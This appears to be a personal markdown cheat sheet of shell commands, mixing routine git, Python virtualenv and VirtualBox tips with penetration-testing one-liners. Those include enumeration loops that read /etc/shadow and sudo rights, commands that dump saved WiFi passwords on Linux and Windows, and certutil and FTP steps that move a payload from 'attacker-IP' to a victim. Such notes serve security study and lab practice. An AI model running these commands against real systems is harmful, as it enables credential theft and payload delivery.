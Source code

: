 # Useful Commands

## Linux

- Bash
  - enumeration
    - system enumeration
      - `commands=( "hostname" "uname -a" "cat /proc/version" "cat /etc/issue" "lscpu" "ps aux" ) && for i in "${commands[@]}"; do printf "$i:\n" && $i && printf "\n"; done`
        - one liner for system enumeration
    - user enumeration
      - `commands=( "whoami" "id" "sudo -l" "cat /etc/passwd | cut -d : -f 1" "cat /etc/shadow" "cat /etc/group" "history" ) && for i in "${commands[@]}"; do printf "$i:\n" && $i && printf "\n"; done`
        - one liner for user enumeration
    - network enumeration
      - `commands=( "ifconfig" "ip a" "route" "ip route" "arp -a" "ip neigh" "netstat -ano") && for i in "${commands[@]}"; do printf "$i:\n" && $i && printf "\n"; done`
        - one liner for network enumeration
  - transfer files between attacker/victim and vice versa
    - `python -m http.server 80`
      - start HTTP server in current directory
    - `python -m pyftpdlib -p 21 --write`
      - start FTP server in current directory
    - `wget http://victim-IP/path/to/file`
      - download file from victim
  - dump WiFi network passwords
    - `sudo grep -r '^psk=' /etc/NetworkManager/system-connections/`
      - of all remembered WiFi networks
    - `nmcli dev wifi show-password`
      - of currently connected WiFi network
  - loop through array and execute command on elements inside
    - `for i in "${array[@]}"; do <command> "$i"; done`
- Python
  - virtual environments
    - `virtualenv --python=$(which python2) /path/to/newenv/folder/`
      - create for Python2
    - `source /path/to/venv/bin/activate`
      - activate
- Git
  - most used
    - `git add . && git commit -m "Meaningful commit message" && git push`
      - add pwd, commit, and push to remote repo
- VirtualBox
  - shared folders
    - `VBoxManage sharedfolder add "kali-linux-1" --name share --hostpath /home/jf/Documents/share/ --automount --transient`
      - add shared folder
    - `VBoxManage sharedfolder remove "kali-linux-1" --name share --transient`
      - remove shared folder

## Windows

- cmd
  - transfer files between attacker/victim and vice versa
    - `certutil -urlcache -f http://attacker-IP/path/to/payload payload`
      - download file to victim
    - `ftp attacker-IP`
      - connect to FTP server, to download/upload files
      - use anonymous login
  - dump WiFi network passwords
    - `netsh wlan show profiles name="$SSID" key=clear`
      - of all remembered WiFi networks

